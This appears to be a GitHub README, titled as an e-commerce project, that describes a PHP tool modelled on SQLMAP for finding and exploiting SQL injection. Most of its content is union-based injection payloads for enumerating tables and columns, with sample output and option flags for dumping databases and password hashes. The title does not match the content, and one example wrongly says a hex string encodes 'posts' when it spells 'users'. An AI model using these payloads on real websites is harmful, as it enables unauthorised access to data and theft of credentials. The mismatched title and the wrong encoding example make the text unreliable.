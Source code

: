# Modern-Ecommerce-Platforms
Design and Develop Modern Ecommerce Plafform

# Project Idea

Creating a tool similar to SQLMAP for web applications using HTML, PHP, HTTP requests, and SQL. It is used to hack and find SQL injection vulnerabilities by providing the URL and selecting the options, rather than writing them by hand, and checking the results at the end.

# The normal hacking without using any tool be like that 

?id=.1 union select 1,2,3,4,5,6,7,8,9,10,11,12 -- -
# To get tables
.1 union select 1,2,table_name,4,5,6,7,8,9,10,11,12 +From+Information_Schema.+tAblES+Where+table_ScHEmA=scHEMA() -- -

# Result
 categories,comments,posts,users,users_online


# To get Columns inside table need to encrypt the table name EX: posts = 0x7573657273
.1 union select 1,2,group_concat(column_name),4,5,6,7,8,9,10,11,12+froM+InfORmation_scHema.cOlumns WheRe+tAblE_naMe=0x7573657273 -- -

# Options
    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate


# Codes Screenshot 
![Screenshot from 2023-10-04 15-57-10](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/ecb2264f-a227-4a44-91d3-96c079eae332)
![Screenshot from 2023-10-04 15-57-17](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/6c6c4721-122b-49b7-af8b-22364bc15d61)
![Screenshot from 2023-10-04 15-57-23](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/3f3c7696-83bc-44ea-845c-6df7536f6656)
![Screenshot from 2023-10-04 15-57-29](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/ec532d47-9a9b-4e89-8cba-9cf4de42542d)
![Screenshot from 2023-10-04 15-57-36](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/4c76f503-5fc1-44af-b0fe-b2b0bb9f705c)
![Screenshot from 2023-10-04 16-19-34](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/c88ab7e7-4881-4fdb-950d-935531c8ff58)
![Screenshot from 2023-10-04 16-19-42](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/43ada877-1743-4b13-a302-13fbdda36d52)

# Website
![Screenshot from 2023-10-04 16-01-27](https://github.com/langsari/Modern-Ecommerce-Platforms/assets/134181494/a9c22773-7114-4cb5-b0dd-b079f51f81a6)

